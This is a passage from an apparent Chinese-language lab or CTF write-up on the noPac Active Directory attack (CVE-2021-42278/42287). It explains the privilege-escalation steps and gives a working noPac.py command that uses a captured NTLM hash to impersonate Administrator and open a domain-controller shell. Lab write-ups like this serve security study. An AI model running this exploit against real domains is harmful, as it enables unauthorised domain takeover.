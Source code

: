 ```bash
1、我们创建了与 DC 机器账户名字相同的机器账号 (不以$结尾，与 CVE-2021-42278 结合，此时 AD 未对域内机器用户名做验证)
2、账户请求 TGT 后，更改账户名字，通过 S4U2Self 申请 TGS 票据
3、DC 在 TGS_REP 阶段，这个账户不存在，DC 用自己的密钥加密 TGS 票据，提供一个属于该账号的 PAC，此时得到一个高权限的 ST
```

大致了解了原理，我们接下来进行实践

使用刚刚抓到的账号尝试攻击

```bash
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

[![](assets/1705989181-231eb67fc6151267e2acad3e0cd5dc6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170206-ea8e4c82-b904-1.png)

成功获取权限。

这里也可以用一开始抓到的机器用户`XR-DESKTOP$`，因为它是机器账户，本身就满足条件。
